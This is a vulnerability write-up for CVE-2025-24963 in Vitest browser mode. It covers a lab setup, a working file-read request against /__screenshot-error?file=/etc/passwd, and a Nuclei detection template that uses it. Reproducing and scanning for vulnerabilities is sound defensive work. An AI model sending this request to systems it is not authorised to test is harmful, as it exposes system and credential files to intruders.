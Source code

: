 # CVE-2025-24963: Vitest Browser Mode - Local File Read

## Description:
Vitest is a testing framework powered by Vite. The `__screenshot-error` handler on the browser mode HTTP server that responds any file on the file system. Especially if the server is exposed on the network by `browser.api.host- true`, an attacker can send a request to that handler from remote to get the content of arbitrary files.This `__screenshot-error` handler on the browser mode HTTP server responds any file on the file system. This code was added by commit `2d62051`. Users explicitly exposing the browser mode server to the network by `browser.api.host- true` may get any files exposed. This issue has been addressed in versions 2.1.9 and 3.0.4. Users are advised to upgrade.

## Reference:
- https://nvd.nist.gov/vuln/detail/CVE-2025-24963
- https://github.com/advisories/GHSA-8gvc-j273-4wm5

## Vulnerable Setup

- cd /tmp && mkdir vitest && cd vitest
- npm install -D @vitest/browser@3.0.0
- npx vitest@3.0.0 init browser (press 'y' and continue)
- change, vitest.config.ts file to

```typescript
import { defineConfig } from 'vitest/config'
export default defineConfig({
  test: {
    browser: {
      provider: 'playwright', // or 'webdriverio'
      enabled: true,
      // at least one instance is required
      instances: [
        { browser: 'chromium' },
      ],
    },
  }
})
```

- Run npm run test:browser

- It opens up a chromium browser with `http://localhost:63315/` URL Loaded.

## Exploitation Steps

- Send a `GET` request to `/__screenshot-error?file=/etc/passwd` to check if the server improperly exposes sensitive system files, potentially leading to Local File Inclusion (LFI) or Arbitrary File Read vulnerabilities.


## Steps to Write Nuclei Template

```yaml
http:
  - raw:
      - |
        GET /__screenshot-error?file=/etc/passwd HTTP/1.1
        Host: {{Hostname}}
        Accept: */*

    matchers:
      - type: dsl
        dsl:
          - "status_code == 200"
          - "contains(content_type,'image/png')"
          - "contains_all(body,'root',':*:','/bin/')"
        condition: and
```

- Sends a `GET` request to `/__screenshot-error?file=/etc/passwd` to attempt reading the /etc/passwd file.

- Ensures the server responds with a `200` status code, confirming a successful request.

- Checks if the response has `image/png` as the Content-Type, indicating that the server is returning the requested file as an image.

- Verifies that the response body contains the expected patterns from `/etc/passwd`, including `"root", ":*:", and "/bin/"`, confirming successful file retrieval.

## Nuclei Template URL : [CVE-2025-24963](https://github.com/projectdiscovery/nuclei-templates/blob/main/http/cves/2025/CVE-2025-24963.yaml)

## Nuclei Command :

```bash
nuclei -t CVE-2025-24963.yaml -u http://localhost:63315 -vv
```